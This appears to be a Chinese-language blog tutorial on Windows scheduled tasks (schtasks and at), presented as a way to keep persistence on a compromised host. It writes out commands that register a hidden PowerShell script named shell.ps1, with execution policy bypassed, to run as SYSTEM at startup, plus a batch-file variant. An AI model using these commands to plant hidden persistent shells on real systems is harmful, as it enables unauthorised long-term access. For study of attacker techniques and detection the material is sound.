 #  计划任务介绍

计划任务是系统的常见功能，  利用任务计划功能，  可以将任何脚本、程序或文档安排在某个最方便的时间运行。任 务计划在每次系统启动的时候启动并在后台运行。
计划任务打开方式

1. 【管理工具】--->【任务计划程序】
2. 【控制面板】--->【计划任务】
3. 【`taskschd.msc`】命令

![image-20230513150818356](https://image.201068.xyz/assets/image-20230513150818356.png)

# 计划任务生成方式

## 一、使用schtasks

### 1、`schtasks`命令使用介绍

`schtasks /?`

```
SCHTASKS /parameter [arguments]
描述:允许管理员创建、删除、查询、更改、运行和中止本地或远程系统上的计划任务。
参数列表:
	/Create 创建新计划任务。
	/Delete 删除计划任务。
	/Query 显示所有计划任务。
	/Change 更改计划任务属性。
	/Run 按需运行计划任务。
	/End 中止当前正在运行的计划任务。
	/ShowSid 显示与计划的任务名称相应的安全标识符。
	/? 显示此帮助消息。
	
Examples: 产看具体详情
	SCHTASKS
	SCHTASKS /?
	SCHTASKS /Run /?
	SCHTASKS /End /?
	SCHTASKS /Create /?
	SCHTASKS /Delete /?
	SCHTASKS /Query /?
	SCHTASKS /Change /?
	SCHTASKS /ShowSid /?
```

我们主要关注`SCHTASKS /Delete /?` 下的命令

### 2、使用以下命令进行测试

```
1、在每个任意用户登录中以SYSTEM的形式执行计划任务：
schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc onlogon /ru System

2、在系统启动期间或用户会话处于非活动状态（空闲模式）时执行
schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc onidle /i 30

3、在系统启动的时候以SYSTEM的形式执行计划任务：
schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc onstart /ru System

4、计划任务以 System 权限每10分钟运行一次
schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc minute/mo 10 /ru system
```

### 3、我们利用当系统开机的时候运行计划任务【实验请看】权限维持

```
schtasks /create /tn shell /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -ExecutionPolicy Bypass -NoExit -File C:\Users\Administrator\Desktop\keep\shell.ps1" /sc onstart /ru System
```

### 4、查看连接情况

```
ps -ano
```

 ![image-20230513151231751](https://image.201068.xyz/assets/image-20230513151231751.png)

## 二、使用at

### 2、命令详情如下

```
\\computername    指定远程计算机。如果省略这个参数，会计划在本地计算机上运行命令。
id                指定给已计划命令的识别号。
/delete           删除某个已计划的命令。如果省略 id，计算机上所有已计划的命令都会被删除。
/yes              不需要进一步确认时，跟删除所有作业的命令一起使用。
time              指定运行命令的时间。
/interactive      允许作业在运行时，与当时登录的用户桌面进行交互。
/every:date[,...] 指定在每周或每月的特定日期运行命令 如果省略日期，则默认为在每月的本日运行。
/next:date[,...]  指定在下一个指定日期(如，下周四)运行命令。如果省略日期，则默认为在每月的本日运行。
"command"         准备运行的 Windows NT 命令或批处理程序。
```

### 3、简单命令如下

```
at 1:00AM /Every:Saturday 1.bat 在每个周六1:00点，电脑定时启动1，bat批处理文件。
```

### 4、编写一个命令进行权限维持

bat脚本内容如下：

```
@echo off
powershell.exe -w hidden -ExecutionPolicy Bypass -NoExit -File C:\Users\Administrator\Desktop\keep\shell.ps1
exit
```

```
at 00:00  C:\Users\Administrator\Desktop\keep\1.bat
```

###  5、查看连接情况

![image-20230513151520050](https://image.201068.xyz/assets/image-20230513151520050.png)

`at 1 /delete` 删除任务

## 三、使用powershell

【比较复杂有时间在搞定】




​	